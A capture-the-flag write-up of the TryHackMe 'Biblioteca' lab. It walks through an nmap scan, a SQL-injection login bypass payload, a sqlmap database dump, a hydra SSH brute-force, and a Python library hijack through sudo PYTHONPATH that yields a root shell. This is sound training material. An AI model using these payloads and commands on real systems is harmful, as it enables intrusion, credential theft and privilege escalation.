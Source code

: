 ```yaml
---
title: "TryHackMe - Biblioteca"
author: Nasrallah
description: ""
date: 2022-12-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, python, hijacking, sqli, sqlmap, hydra]
img_path: /assets/img/tryhackme/biblioteca
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Biblioteca](https://tryhackme.com/room/biblioteca) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.211.29
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 00:0b:f9:bf:1d:49:a6:c3:fa:9c:5e:08:d1:6d:82:02 (RSA)
|   256 a1:0c:8e:5d:f0:7f:a5:32:b2:eb:2f:7a:bf:ed:bf:3d (ECDSA)
|_  256 9e:ef:c9:0a:fc:e9:9e:ed:e3:2d:b1:30:b6:5f:d4:0b (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, port 22 running OpenSSH 8.2p1 and port 8000 running Werkzeug httpd 2.0.2.

## Web

Let's navigate to the web page.

![](1.png)

It's a login page, let's try logging in using sql injection.

![](2.png)

We managed to login as **Smokey** using this payload `' or 1=1 -- -`

# **Foothold**

## Sqlmap

Let's run `sqlmap` on the login page and tell it to dump everything.

```bash
sqlmap -u 'http://10.10.218.61:8000/login' --form --batch --dump
```

![](3.png)

Great! We managed to read the database and found a clear text password of `smokey`.

Let's try ssh into the machine with that password.

![](4.png)

# **Privilege Escalation**

If we check the `/home` directory we find a folder named `hazel` which belongs the user `hazel`.

## Hydra

The hint for the user flag says `Weak password`, so let's brute force `hazel`'s ssh password using hydra.

```bash
hydra -l 'hazel' -P /usr/share/wordlists/rockyou.txt 10.10.218.61 ssh -t 30
```

![](5.png)

We found the password, let's swith to `hazel`.

![](6.png)

After running the command `sudo -l`, we see that `hazel` can run **/usr/bin/python3 /home/hazel/hasher.py** with `SETENV` which allow us to set the environment variables for the program we're running.

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

This python script imports `hashlib` library.

Since we can't modify `hasher.py` or create files in `hazel`'s home directory, we will hijack the `hashlib` library and use the `SETENV` to get it executed. For more information about library hijacking, check this [article](https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/).

First we're going to create a file in /tmp directory and calle it `hashlib.py`containing the following script.

```python
import os; os.system("/bin/bash")
```

Now we run the sudo command with the environment variable `PYTHONPATH` set to `/tmp` to get root.

```
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

![](7.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
